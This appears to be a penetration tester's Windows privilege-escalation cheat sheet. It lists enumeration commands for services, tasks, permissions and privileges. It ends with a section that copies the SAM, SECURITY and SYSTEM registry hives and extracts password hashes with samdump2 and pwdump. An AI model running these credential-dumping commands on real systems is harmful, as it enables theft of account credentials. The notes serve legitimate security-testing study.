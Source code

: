 #### tasklist run by current user

```tasklist -v```
-----


#### accesschk

*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```
-----


#### firewall

```netsh firewall show state```

```netsh firewall show config```
-----


#### privs

```whoami /priv```
-----


#### scheduled tasks

```schtasks /query /fo list /v```
-----


#### file privs

```dir file.txt /s /p```

```icacls "c:\program files\whatever"```
-----


#### wmic

```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```
-----


#### SAM dump

*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```
-----



